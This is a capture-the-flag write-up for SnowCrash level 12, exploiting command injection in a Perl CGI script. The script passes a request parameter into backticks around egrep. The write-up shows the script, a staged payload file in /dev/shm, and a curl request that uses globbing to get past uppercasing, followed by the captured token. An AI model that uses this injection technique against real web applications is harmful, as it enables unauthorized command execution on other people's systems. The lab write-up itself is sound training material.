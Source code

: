 # Level 12

## Vulnerability
Privilege escalation - CGI code injection

## Context
```
level12@SnowCrash:~$ ls -l
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```
## Solution
Let's ```cat``` the file and see what we find. 
```
level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /dev/shm/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```
This program uses CGI (Common Gateway Interface) to execute a shellscript.<br/>
Here's what that would look like in a navigator:<br/>
```http://${VM_IP}:4646/?x={shellscript}<br/>```

In the program, the shellscript is evaluated in the $xx variable... which we can exploit!<br/>
The regex will capitalize the $xx argument. <br/>
So if we write ```x="getflag > /dev/shm/flag12"``` it will be changed to ```"GETFLAG > /DEV/SHM/FLAG12"```.<br/>
Linux is case-sensitive, so it will fail to recognize a filepath in capital case. <br/>
Hmm... let's try writing our script to a file instead. 
```
level12@SnowCrash:~$ echo "getflag > /dev/shm/flag12" > /dev/shm/EXPLOIT
level12@SnowCrash:~$ cat /dev/shm/EXPLOIT
getflag > /dev/shm/flag12
```
Let's make sure we can run the script. 
```
level12@SnowCrash:~$ cd /dev/shm
level12@SnowCrash:/dev/shm$ `EXPLOIT`
EXPLOIT: command not found

level12@SnowCrash:/dev/shm$ `/dev/shm/EXPLOIT`
bash: /dev/shm/EXPLOIT: Permission denied
```
Ok, looks like it's not executable. Let's change the permissions on the file. 
```
level12@SnowCrash:/dev/shm$ chmod 755 EXPLOIT
level12@SnowCrash:/dev/shm$ `/dev/shm/EXPLOIT`
level12@SnowCrash:/dev/shm$ ls
EXPLOIT  flag12
level12@SnowCrash:/dev/shm$ cat flag12
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```
It works! Time to leverage the perl program to execute our script.<br/>
Since we can't pass the filepath directly (it'll get capitalized by the perl program and be unrecognizable), we'll use globbing and replace the file path with asterisks.
```
level12@SnowCrash:/dev/shm$ curl '127.0.0.1:4646?x="`/*/*/EXPLOIT`"'
..
level12@SnowCrash:/dev/shm$ cat flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
Success!

